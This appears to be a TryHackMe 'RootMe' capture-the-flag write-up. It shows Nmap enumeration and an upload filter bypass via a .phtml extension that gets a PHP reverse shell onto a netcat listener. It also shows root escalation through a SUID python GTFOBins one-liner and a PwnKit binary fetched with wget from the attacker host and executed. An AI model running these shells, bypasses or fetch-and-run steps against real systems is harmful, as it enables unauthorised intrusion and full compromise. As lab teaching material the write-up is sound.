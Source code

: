 # THM - RootMe

#### Ip: 10.10.204.78
#### Name: RootMe
#### Rating: Easy

----------------------------------------------------------------------

chill.png

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -p-  --min-rate 10000 10.10.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:17 CDT
Warning: 10.10.0.217 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -sC -sV -T4 10.10.0.217 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:18 CDT
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.38 seconds
```

Navigating to the site we find this webpage:

page.png

I'm not seeing any links nor am I finding anything of interest in the page source, so lets kick off some directory fuzzing:

ferox.png

Cool, the /uploads and /panel directories seem interesting. Navigating to http://10.10.0.217/panel/ we see a file upload feature. Lets try using a PHP reverse shell from PentestMonkey.

### Exploitation

We'll need to go ahead and update the IP adress field, as well as add which port we'll be listening on:

php.png

After setting up a NetCat listener on port 443 we can try to upload the script:

nophp.png

Dang, looks like the site is filtering out the PHP extension. No problem, there are a few potential ways around this.

First lets copy the magic bytes (or file signatures) for a .png file and paste them at the beginning of the PHP shell:

bytes.png

From here we can save the script and it will hopefully be interpreted as an image. Lets save the script with the magic bytes as not_a_php_shell.png

We can then succesfully upload our disguised shell:

success.png

Recalling that we also found an /uploads directory, we can navigate there and trigger our exploit:

uploads.png

Rats, that failed as well. Another approach we can take is modifying the .php file extension. Perhaps the app is simply blacklisting vanilla PHP, but maybe not something like .phtml. Lets save our script now as shell.phtml and try to upload again.

success2.png

And we can execute the script by clicking on the file in the /uploads directory to get a shell back on our listener:

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.0.217] 59718
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:41:22 up 29 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
rootme
$ python3 -c 'import pty;pty.spawn("/bin/bash")'


www-data@rootme:/$
```

Nice!, Now we should be able to grab the user.txt flag:

user_flag.png

### Privilege Escalation #1

Lets move into the `/tmp` directory and copy over LinPeas to help find the privilege escalation vector.

transfer.png

Cool, looks like Python has the SUID bit set. This should be a walk in the park from here on out.

suid.png

Heading over to https://gtfobins.github.io/ and searching for Python, we find the exact command we'll need to escalate privileges:

gtfobins.png

Changing directories to `/usr/bin` all we need to do is run:


```text
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
And we'll drop into a root shell, from which we can grab the root.txt flag:

root_flag.png


### Privilege Escalation #2

Another vector identified by LinPeas was PwnKit.

pwnkit.png

This is an extremely common finding on older, upatched boxes, and can be a very quick win. Exploiting it takes just a second or two:

```text
www-data@rootme:/tmp$ wget http://10.6.61.45/PwnKit
--2023-07-24 15:59:10--  http://10.6.61.45/PwnKit
Connecting to 10.6.61.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.1s    

2023-07-24 15:59:10 (133 KB/s) - 'PwnKit' saved [18040/18040]

www-data@rootme:/tmp$ chmod +x PwnKit
www-data@rootme:/tmp$ ./PwnKit
root@rootme:/tmp# whoami
root
root@rootme:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
A detailed writeup of the vulnerability can be found here:

https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

Thanks for following along!

-Ryan

---------------------------------------------------------------------



